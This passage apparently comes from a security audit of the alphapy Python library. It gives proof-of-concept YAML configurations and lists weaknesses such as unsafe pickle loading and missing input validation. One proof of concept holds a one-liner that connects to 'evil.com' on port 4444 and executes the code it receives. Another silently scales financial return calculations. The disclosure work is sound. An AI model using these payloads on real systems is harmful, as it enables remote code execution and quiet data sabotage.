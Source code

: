 #### PoC 2: System Compromise
```yaml
# Configuration that establishes persistent backdoor
transforms:
  price:
    - "subprocess"
    - "Popen"
    - ["python", "-c", "import socket; exec(socket.socket().connect(('evil.com',4444)).recv(1024))"]
```

#### PoC 3: Silent Data Corruption
```yaml
# Configuration that subtly corrupts calculations
transforms:
  returns:
    - "numpy"
    - "multiply"
    - 0.99  # Slightly reduce all returns calculations
```

## Additional Security Concerns

### Secondary Vulnerabilities

#### 1. Path Traversal Risk
**Location:** `alphapy/features.py:135`
```python
sys.path.append(os.getcwd())  # Allows loading from any directory
```
**Risk:** Attacker can control working directory to load malicious modules

#### 2. Unsafe Deserialization
**Location:** `alphapy/model.py:504, 593`
```python
predictor = joblib.load(file_name)    # Unsafe pickle loading
feature_map = joblib.load(file_name)  # Unsafe pickle loading
```
**Risk:** Malicious pickle files can execute arbitrary code

#### 3. Configuration Injection
**Location:** Throughout configuration loading
**Risk:** YAML parsing can be exploited for code execution

### System-Wide Security Gaps

#### 1. Input Validation
- No validation of transform module names
- No validation of function names
- No validation of file paths
- No validation of configuration parameters
